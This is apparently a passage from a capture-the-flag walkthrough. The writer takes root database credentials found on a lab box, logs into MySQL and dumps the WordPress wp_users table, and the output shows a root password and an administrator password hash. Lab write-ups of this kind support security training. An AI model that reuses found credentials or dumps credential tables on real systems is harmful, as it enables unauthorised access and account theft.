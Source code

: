 Looks like we found the root database credentials for the database instance on this server (```root / $@y6CHJ^$#5c37j$#6h```).  It is likely these credentials correspond to the MySQL database we found earlier.  I tried to use these to log in as root using su, but they did not work unfortunately.  However, these credentials should allow us to login to the database:

```bash
# If we do not specify a server, mysql assumes we want to connect to localhost.
florian@aragog:~$ mysql -u root
```

We were able to get in.  WordPress credentials are stored in the wp_users table of the database.  We know from wp-config.php that the database we want is wp_wiki.  Let's get the the user credentials:
```sql
show databases;

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wp_wiki            |
+--------------------+
5 rows in set (0.02 sec)

mysql> use wp_wiki;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wp_wiki     |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

mysql> select * from wp_users;
+----+---------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+---------------+
| ID | user_login    | user_pass                          | user_nicename | user_email      | user_url | user_registered     | user_activation_key | user_status | display_name  |
+----+---------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+---------------+
|  1 | Administrator | $P$B3FUuIdSDW0IaIc4vsjj.NzJDkiscu. | administrator | it@megacorp.com |          | 2017-12-20 23:26:04 |                     |           0 | Administrator |
+----+---------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+---------------+
1 row in set (0.00 sec)
```
